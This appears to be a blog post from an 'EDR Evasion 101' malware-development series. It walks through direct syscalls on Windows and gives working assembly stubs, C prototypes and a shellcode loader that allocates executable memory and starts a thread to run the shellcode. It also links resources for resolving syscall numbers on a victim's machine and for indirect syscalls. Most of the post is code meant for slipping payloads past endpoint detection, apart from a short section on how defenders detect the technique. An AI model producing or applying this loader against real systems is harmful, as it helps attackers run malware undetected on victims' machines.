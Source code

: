 ```yaml
---
title: "EDR Evasion 101 - Pt 3: Direct Syscall"
description: Demonstration of the use of direct syscalls to evade hooking carried out by EDR, in addition to its advantages and possible forms of improvement. 
author: Oblivion
date: 2024-04-21 11:33:00 +0800
categories: [Malware Development]
tags: []
pin: true
math: true
mermaid: true
---
```


This is a very easy way to evade hooking, because we simply perform the direct syscall of our code without needing to use the hooked API. A brief representation of how this technique works:

![img](../commons/direct_syscall/img1.png)

## How make this

Well, first we should know about the stub syscall, it looks like the following:

```
    mov r10, rcx
    mov eax, <SSN>
    syscall
    ret
```

The Service Syscall Number, known as SSN, is the identification number assigned to each syscall function. Now that we understand about the syscall stub and SSN, we can move on. To perform direct syscalls, it is necessary to have the stub in an .asm assembly code. In our C code, we use EXTERN_C to declare the function, informing the compiler that this function exists somewhere in the code. We then compile our C and .asm assembly codes to object files and finally link them. I will demonstrate the process, but first, let's learn how to find out the SSN of functions on our machine. The SSN varies depending on the machine version, which can be an obstacle to performing direct syscalls. I'll show you how to find the SSN of a role:

Opening x64dbg, go to C:\Windows\System32\ntdll.dll and attach it, then go to the "Symbols" tab and search for the function to be used.

![img](../commons/direct_syscall/img2.png)

which will take us to the syscall stub screen where we can see the NtAllocateVirtualMemory SSN equivalent to 18.

![img](../commons/direct_syscall/img3.png)

I will carry out the same process to find out the SSN of NtCreateThreadEx, I will create an .asm file to create the stub of the two functions, result below.

```
.code
    SysFuncAlloc PROC
        mov r10, rcx
        mov eax, 18h
        syscall
        ret
    SysFuncAlloc ENDP

    SysFuncThread PROC
        mov r10, rcx
        mov eax, 0C7h
        syscall
        ret
    SysFuncThread ENDP
end
```

Now I will create a C file as .h containing the function definition, note that the name has to be the same as defined in the .asm file.

```c
EXTERN_C NTSTATUS SysFuncAlloc(
  IN HANDLE           ProcessHandle,    
  IN OUT PVOID        *BaseAddress,    
  IN ULONG_PTR        ZeroBits,         
  IN OUT PSIZE_T      RegionSize,      
  IN ULONG            AllocationType,   
  IN ULONG            Protect           
);

EXTERN_C NTSTATUS SysFuncThread(
    OUT PHANDLE                 ThreadHandle,         
    IN 	ACCESS_MASK             DesiredAccess,        
    IN 	POBJECT_ATTRIBUTES      ObjectAttributes,     
    IN 	HANDLE                  ProcessHandle,        
    IN 	PVOID                   StartRoutine,        
    IN 	PVOID                   Argument,            
    IN 	ULONG                   CreateFlags,         
    IN 	SIZE_T                  ZeroBits,            
    IN 	SIZE_T                  StackSize,           
    IN 	SIZE_T                  MaximumStackSize,    
    IN 	PPS_ATTRIBUTE_LIST      AttributeList       
);
```

Now creating the main file where we will perform a simple injection using direct syscalls.

```c
LPVOID lpAllocationStart = NULL;
SIZE_T szshell = sizeof( shellcode );
HANDLE hProcess = GetCurrentProcess();
HANDLE hThread;

NTSTATUS status = SysFuncAlloc(hProcess, &lpAllocationStart, 0, &szshell, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (!NT_SUCCESS(status)){
	printf("[!] NtAllocateVirtualMemory Failed With Status : 0x%0.8X \n", status); 
	return 1;
}

printf("[*] Allocated memory at 0x%p\n", lpAllocationStart);

memcpy(lpAllocationStart, shellcode, szshell);

NTSTATUS status2 = SysFuncThread(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, lpAllocationStart, NULL, NULL, NULL, NULL, NULL, NULL);
if (!NT_SUCCESS(status2)){
	printf("[!] NtCreateThreadEx Failed With Status : 0x%0.8X \n", status); 
	return 1;
}

printf("[+] Thread Created\n");

WaitForSingleObject(hThread, INFINITE);
CloseHandle(hThread);

return 0;
```

# References

You might ask, "How would I find out the SSN of the victim's machine?" For that, I recommend reading about the concept of [HellsGate](https://redops.at/en/blog/exploring-hells-gate). It dynamically resolves the SSN and allows you to make direct calls efficiently.

# Disadvantages of Direct Syscall

Direct syscalls are easily detected because, in the Windows operating system, it is uncommon for code outside of ntdll.dll to perform syscalls. Therefore, simply search for the opcode of the "syscall" instruction, among other available detection methods such kernel routines and etc.

To avoid this, you can use Indirect Syscall, which is to execute the syscall directly from ntdll, for more information, you can use [HellsHall](https://github.com/Maldev-Academy/HellHall).

## [Code Repository](https://github.com/Entropy-z/EDR_Evasion_101/tree/master/direct_syscall)

